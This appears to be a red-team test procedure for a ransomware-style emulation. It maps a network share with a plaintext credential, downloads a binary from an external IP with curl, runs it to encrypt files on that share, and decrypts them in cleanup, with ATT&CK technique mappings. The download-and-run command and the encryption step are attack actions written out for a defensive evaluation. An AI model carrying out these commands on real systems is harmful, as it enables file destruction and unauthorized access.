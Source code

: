 * Search for and open Command Prompt

* Execute the following command to transfer the file to the victim host:

    ```bash
    curl --output "C:\Windows\Temp\test5.exe" http://223.246.0.70/files/test5.exe
    ```

* Change directories to the directory containing the `test5.exe` binary.

    ```cmd
    cd C:\Windows\Temp
    ```

* Execute the following command to ensure the `Z:` network drive is mapped:

    ```cmd
    net use
    ```

  * If the Z: is not mounted to `asix (10.222.15.15)`, mount the
  share and enter the password when prompted:

    ```cmd
    net use Z: \\10.222.15.15\D$\data /persistent:yes /user:sonicbeats37.fm\sooyoung Dental-Crew
    ```

### :biohazard: Procedures

* Execute the test binary with the target file path.

```cmd
C:\Windows\Temp\test5.exe Z:\ encrypt
```

* :camera: Screenshot the end state of the test and any command/application output (If a block occurred screenshot any alert/prompt).

### :broom: Cleanup

* Rerun the the test5 application with the `decrypt` argument and unmount the file share.

```cmd
C:\Windows\Temp\test5.exe Z:\ decrypt
net use Z: /delete
```

### :mag: ATT&CK Techniques and Reference Code

:information_source: NOTE: Only the techniques under test are listed in this table

| Red Team Activity | Source Code Link | ATT&CK Technique |
| ----------------- | ---------------- | ---------------- |
| cmd.exe executes test5.exe | - | T1059.003: Command and Scripting Interpreter: Windows Command Shell |
| test5.exe enumerates all files and folders recursively in Z:\ | [enumeration](../Resources/test5/src/enum.cpp#L17) | T1083 File and Directory Discovery |
| test5.exe uses FindFirstFile and FindNextFile to enumerate files in Z:\ | [FindFirstFile](../Resources/test5/src/enum.cpp#L26) | T1106 Native API |
| test5.exe encrypts files discovered in Z:\ | [encryption](../Resources/test5/src/main.cpp#L18) | T1486 Data Encrypted For Impact |
